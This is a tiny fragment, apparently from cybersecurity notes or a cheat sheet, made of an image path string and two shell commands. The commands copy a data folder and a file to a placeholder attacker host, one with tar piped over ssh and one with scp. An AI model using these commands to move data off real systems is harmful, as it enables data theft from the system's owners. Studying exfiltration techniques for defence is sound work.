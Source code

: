 	tar zcf - /tmp/datafolder | ssh [user]@[attacker ip] "cd /tmp; tar zxpf -"
	scp [file] user@attack_ip:[save path]